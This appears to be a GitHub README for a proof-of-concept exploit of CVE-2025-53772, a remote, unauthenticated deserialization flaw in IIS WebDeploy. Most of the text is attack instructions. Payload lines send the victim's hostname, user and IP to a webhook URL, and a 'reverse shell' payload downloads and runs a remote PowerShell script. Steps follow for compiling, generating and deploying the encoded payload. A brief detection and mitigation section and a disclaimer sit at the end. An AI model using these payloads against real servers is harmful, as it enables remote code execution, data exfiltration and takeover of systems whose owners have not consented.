 # CVE-2025-53772 - IIS WebDeploy RCE Exploit

This repository contains a Proof-of-Concept (PoC) exploit for CVE-2025-53772, a Remote Code Execution vulnerability in IIS WebDeploy through unsafe deserialization.
## ⚠️ Disclaimer
This tool is for educational and authorized security testing purposes only. The author is not responsible for any misuse or damage caused by this software. Only use on systems you own or have explicit permission to test.
## 🔧 Quick Setup
### 1. Customize the Payload
Edit the payload in poc.cs at lines 18-19 to specify your target action:
csharp// Replace with your webhook URL and desired payload
```
set.Add("cmd.exe");
set.Add("/c curl -X POST https://webhook.site/YOUR-WEBHOOK-ID -H \"Content-Type: application/json\" -d \"{\\\"hostname\\\":\\\"%COMPUTERNAME%\\\",\\\"user\\\":\\\"%USERNAME%\\\",\\\"ip\\\":\\\"$(curl -s ifconfig.me)\\\",\\\"exploit\\\":\\\"CVE-2025-53772\\\",\\\"timestamp\\\":\\\"%DATE% %TIME%\\\"}\"");
```
### 📋 Payload Examples
Information Gathering (Recommended):
```
csharpset.Add("powershell.exe");
set.Add("-Command \"$hostname=$env:COMPUTERNAME; $user=$env:USERNAME; $ip=(Invoke-RestMethod -Uri 'https://ipinfo.io/ip' -UseBasicParsing); $body=@{hostname=$hostname;user=$user;ip=$ip;exploit='CVE-2025-53772';timestamp=(Get-Date)} | ConvertTo-Json; Invoke-RestMethod -Uri 'https://webhook.site/YOUR-WEBHOOK-ID' -Method Post -Body $body -ContentType 'application/json'\"");
```
Simple Command Execution:
```
csharpset.Add("cmd.exe");
set.Add("/c calc.exe");  // Opens calculator
```
Reverse Shell (Advanced):
```
csharpset.Add("powershell.exe");
set.Add("-Command \"IEX (New-Object Net.WebClient).DownloadString('http://YOUR-SERVER/shell.ps1')\"");
```
### 2. Generate the Exploit Payload
The GitHub Action will automatically compile the PoC and generate the Base64-encoded payload:

Push your changes to trigger the GitHub Action
Navigate to Actions tab in your repository
Click on the latest workflow run
Find the generated payload in the console output:

<img width="1565" height="623" alt="GitHub Actions payload output" src="https://github.com/user-attachments/assets/512a6037-0ab6-4f1c-b02b-364996c315ee" />
3. Deploy the Exploit
Use the generated Base64 payload against the vulnerable IIS WebDeploy endpoint:
<img width="856" height="255" alt="Payload deployment example" src="https://github.com/user-attachments/assets/88b147cd-fae7-4034-9622-5af3a39b2bec" />
🎯 Vulnerability Details

# CVE ID: CVE-2025-53772
Affected Software: IIS WebDeploy (multiple versions)
Vulnerability Type: Unsafe Deserialization leading to RCE
Attack Vector: Remote, unauthenticated
Severity: Critical

## 🛠️ Manual Compilation (Optional)
If you prefer to compile locally instead of using GitHub Actions:
bash# Windows with .NET Framework
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe poc.cs
poc.exe > payload.txt

## Or with Visual Studio
csc poc.cs
poc.exe
📡 Setting Up a Webhook

Go to webhook.site to get a free webhook URL
Replace YOUR-WEBHOOK-ID in the payload with your unique ID
Monitor incoming requests to see exploit execution results

## 🔍 Detection & Mitigation
Detection:

Monitor for unusual BinaryFormatter deserialization activities
Look for suspicious process spawning from IIS worker processes
Network monitoring for unexpected outbound connections

Mitigation:

Update IIS WebDeploy to the latest patched version
Implement input validation and sanitization
Use allowlists for deserialization types
Deploy network segmentation and monitoring

## 📚 References

CVE-2025-53772 Details
Microsoft Security Advisory
NIST Vulnerability Database
